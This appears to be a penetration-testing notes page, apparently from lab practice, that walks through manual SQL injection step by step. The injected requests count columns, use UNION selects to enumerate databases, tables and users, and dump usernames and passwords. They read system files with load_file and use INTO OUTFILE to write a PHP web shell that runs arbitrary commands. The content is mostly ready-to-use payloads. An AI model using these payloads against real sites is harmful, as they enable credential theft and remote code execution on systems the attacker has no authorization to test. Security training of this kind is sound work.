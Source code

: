 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### example 1

First get out error with single quote

`/debug.php?id='`

Then use "order by" to find all columns.  Keep increasing until you have an error!  If error occurs on 4, then you have 3 columns!
```
/debug.php?id=1 order by 1,2,3
```

Next, we use UNION to discover which columns are being displayed in the page:
```
/debug.php?id=1 union all select 1, 2, 3
```


We will target #3, as it seems to have the most space available.
```
/debug.php?id=1 union all select 1, 2, @@version
```

```
/debug.php?id=1 union all select 1, 2, user()
```

Enumerate DB tables and column structures:
```
/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

Target users table and retrieve the column names:
```
/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

Extract usernames and passwords:
```
/debug.php?id=1 union all select 1, username, password from users
```

#### Reading files
```
/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Notice when we have an error, we get the whole file path.  

We can use this info to craft a malicious php file and place it into the root web directory.
```
/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

While we do get an error message, the file did get created and works just fine:
```
/backdoor.php?cmd=ipconfig
```

#### example 2
Example from Dante:
```
http://172.16.1.12/blog/single.php?id='
```

The above threw an error:
>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1

We append some known tricks to break out the syntax:
	* If nothing happens here, just continue on to UNION statements!
```
http://172.16.1.12/blog/single.php?id=' -- -
```

We then build up the UNION statement, starting at 1, until the web page renders properly again.  Also, we can see some of the numbers on screen, we can pick which entry is good for our details next.
```
' UNION select 1,2,3,4,5,6,7,8,9-- -
```

Find the version of MariaDB:
```
' UNION select 1,version(),3,4,5,6,7,8,9-- -
```
10.4.13-MariaDB

Retrieve Database name:
```
' UNION select 1,database(),3,4,5,6,7,8,9-- -
```
blog_admin_db

Current user:
```
' UNION select 1,user(),3,4,5,6,7,8,9-- -
```

datadir:
```
' UNION select 1,@@datadir,3,4,5,6,7,8,9-- -
```

